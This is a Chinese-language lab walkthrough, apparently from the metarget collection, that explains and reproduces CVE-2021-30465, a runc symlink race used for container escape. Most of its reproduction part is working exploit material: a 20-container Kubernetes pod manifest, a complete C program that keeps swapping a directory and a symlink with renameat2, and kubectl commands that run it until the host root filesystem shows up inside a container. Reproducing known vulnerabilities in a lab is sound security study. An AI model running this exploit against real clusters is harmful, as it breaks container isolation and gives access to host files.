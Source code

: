 # runc符号链接挂载与容器逃逸（CVE-2021-30465）

## 场景介绍

runc 是一个CLI工具，用于根据OCI规范生成和运行容器，该工具被广泛的应用于各种虚拟化环境中，如Kubernets。

该漏洞是由于挂载卷时，runc 不信任目标参数，并将使用 “filepath-securejoin” 库来解析任何符号链接并确保解析的目标在容器根目录中，但是如果用符号链接替换检查的目标文件时，可以将主机文件挂载到容器中。黑客可利用该漏洞能将宿主机目录挂载到容器中，来实现容器逃逸。

## 漏洞详情

在容器层面挂载卷和挂载目录是不一样的。

挂载目录，对容器来说，只是简单把目录与容器的目录做映射绑定，而目录的权限还是在主机，需要用户自制维护，手动处理权限等问题。

卷 (Volume) 是受控存储，挂载卷后是由容器引擎进行管理维护的，也就是把对应卷的所有权交给了容器引擎（本次漏洞的核心点）

正常定义卷A之后 ，若a容器挂载了卷A，那它同时也挂载了卷A下面的目录。

当a容器起来后，恶意程序疯狂的在挂载的目录下刷新软连接与目录的关系。与此同时若b容器也像a容器一样挂载了相同中的卷和对应卷下面的目录。

因为卷所有权这个时候是在引擎内，并且a容器相同卷下的目录还在刷新软连接（相同于创建软连接）这个时间在容器引擎内部就会存在资源竞争，形成了漏洞。

## 环境搭建

漏洞环境准备：

```
./metarget cnv install cve-2021-30465
```

## 漏洞复现

因为是利用竞争条件来进行利用的，有很大概率失败的。

### 步骤一：创建攻击Pod

```
sudo kubectl create -f - <<EOF
apiVersion: v1
kind: Pod
metadata:
    name: attack
spec:
    terminationGracePeriodSeconds: 1
    containers:
    - name: c1
      image: ubuntu:latest
      command: [ "/bin/sleep", "inf" ]
      env:
      - name: MY_POD_UID
        valueFrom:
          fieldRef:
            fieldPath: metadata.uid 
      volumeMounts:
        - name: test1
          mountPath: /test1
        - name: test2
          mountPath: /test2
$(for c in {2..20}; do
cat <<EOC
    - name: c$c
      image: donotexists.com/do/not:exist
      command: [ "/bin/sleep", "inf" ]
      volumeMounts: #容器内挂载点
        - name: test1 #宿主机目录名
          mountPath: /test1 #容器内目录名
        - name: test2
          mountPath: /test1/mnt1
        - name: test2
          mountPath: /test1/mnt2
        - name: test2
          mountPath: /test1/mnt3
        - name: test2
          mountPath: /test1/mnt4
        - name: test2
          mountPath: /test1/zzz
EOC
done
)
    volumes:
      - name: test1 #宿主机目录名
        emptyDir: #宿主机挂载点
          medium: "Memory"
      - name: test2
        emptyDir:
          medium: "Memory"
EOF
```

### 步骤二：编译恶意程序

保存以下代码为`race.c`文件并编译`gcc race.c -o race`:

```c
#define _GNU_SOURCE

#include <fcntl.h>
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <unistd.h>
#include <sys/syscall.h>

#ifndef RENAME_EXCHANGE
#define RENAME_EXCHANGE (1 << 1) 
#endif

int main(int argc, char *argv[]) {
    if (argc != 4) {
        fprintf(stderr, "Usage: %s name1 name2 linkdest\n", argv[0]);
        exit(EXIT_FAILURE);
    }
    char *name1 = argv[1], *name2 = argv[2], *linkdest = argv[3];

    int dirfd = open(".", O_DIRECTORY|O_CLOEXEC);
    if (dirfd < 0)
        exit(EXIT_FAILURE);

    if (mkdir(name1, 0755) < 0)
        perror("mkdir failed");
    if (symlink(linkdest, name2) < 0)
        perror("symlink failed");

    while (1)
        syscall(SYS_renameat2, dirfd, name1, dirfd, name2, RENAME_EXCHANGE);
}
```

### 步骤三：执行恶意程序

将恶意程序拷贝至c1容器内执行：

```
kubectl cp race -c c1 attack:/test1/
```

然后进去容器创建符号链接：

```
sudo kubectl exec -it attack -c c1 bash
ln -s / /test2/test2
```

进入/test1目录下执行程序：

```
seq 1 4 | xargs -n1 -P4 -I{} ./race mnt{} mnt-tmp{} /var/lib/kubelet/pods/$MY_POD_UID/volumes/kubernetes.io~empty-dir/
```

接着更新c2-c20的容器镜像为合法镜像。新打开一个终端，执行以下命令更新镜像，一旦更新，pod会尝试创建容器。

```
for c in {2..20}; do
  sudo kubectl set image pod attack c$c=ubuntu:latest
done
```

执行以下命令查看漏洞是否利用成功：

```
for c in {2..20}; do
  echo ~~ Container c$c ~~
  sudo kubectl exec -ti pod/attack -c c$c -- ls /test1/zzz
done
```

若利用成功，会打印出/test1/zzz目录下的内容，也即宿主机根目录的内容：

![image.png](images/1.png)

## 参考文献

https://blog.champtar.fr/runc-symlink-CVE-2021-30465/

https://mp.weixin.qq.com/s/WRRjLKk_C9pq2WlvnA-NZQ
